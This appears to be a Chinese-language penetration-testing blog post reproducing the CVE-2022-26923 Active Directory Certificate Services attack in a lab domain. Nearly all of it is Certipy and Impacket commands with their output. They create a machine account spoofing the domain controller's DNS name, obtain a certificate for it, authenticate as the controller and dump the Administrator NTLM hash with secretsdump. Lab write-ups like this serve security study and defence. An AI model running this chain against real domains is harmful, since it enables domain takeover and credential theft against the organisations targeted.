 ```yaml
---
title: "CVE-2022–26923"
date: 2023-09-28 09:40:23 +0800
category: 渗透测试
tags: [内网,渗透测试,ADCS,域]
excerpt: CVE-2022–26923
---
```

## 环境
| IP           | 机器名 | 说明 |
| ------------ | ------ | ---- |
| 10.10.10.146 | DC     | 域控 |
| 10.10.10.145| CS | 证书服务器 s-CS-CA|
| 10.10.10.135 | kali | 攻击机 |

+ /etc/hosts(攻击机)
```
10.10.10.146    dc
10.10.10.146    dc.s.com
10.10.10.145    cs
10.10.10.145    cs.s.com
10.10.10.145    s-CS-CA
```
## 利用过程
### 生成证书
首先使用用户证书模板为我们的低权限域用户 (chenqi:Cqadmin@123) 生成证书
https://github.com/ly4k/Certipy
```
certipy req -u chenqi@s.com -p 'Cqadmin@123' -ca s-CS-CA -template User -dc-ip 10.10.10.146 -target 10.10.10.145
```
+ 验证证书是否有效
```
certipy auth -pfx chenqi.pfx -dc-ip 10.10.10.146 -debug
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Using principal: chenqi@s.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'chenqi.ccache'
[*] Trying to retrieve NT hash for 'chenqi'
[*] Got hash for 'chenqi@s.com': aad3b435b51404eeaad3b435b51404ee:9b60fc74a64a405abacbf9803e700418
```
### 创建机器用户
使用LDAPS方法创建计算机,使用SAMR协议创建机器用户时，机器用户默认没有dnsHostName属性和UPN属性
```
//设置创建的计算机的dns为域控机器名
certipy account create -u chenqi@s.com -p 'Cqadmin@123' -dc-ip 10.10.10.146 -user newcomputer -dns DC.s.com
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : newcomputer$
    unicodePwd                          : 9Qo3NQ8ItahV5FUT
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/newcomputer
                                          RestrictedKrbHost/newcomputer
    dnsHostName                         : DC.s.com
[*] Successfully created account 'newcomputer$' with password '9Qo3NQ8ItahV5FUT'
```
### 生成创建的机器请求证书
```
certipy req -u newcomputer\$@s.com -p 9Qo3NQ8ItahV5FUT -dc-ip 10.10.10.146 -ca s-CS-CA -target 10.10.10.145 -template Machine -debug
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.10.145[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.10.145[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 30
[*] Got certificate with DNS Host Name 'DC.s.com'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc.pfx'
```
### 认证域控
```
certipy auth -pfx dc.pfx -dc-ip 10.10.10.146
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Using principal: dc$@s.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc.ccache'
[*] Trying to retrieve NT hash for 'dc$'
[*] Got hash for 'dc$@s.com': aad3b435b51404eeaad3b435b51404ee:802e8ec76f455c3fb0377ebd3961bd1e
```
### 导出域内任意用户哈希
```
secretsdump.py -hashes 1:802e8ec76f455c3fb0377ebd3961bd1e s.com/DC\$@10.10.10.146 -just-dc-user administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4:::
[*] Cleaning up... 
```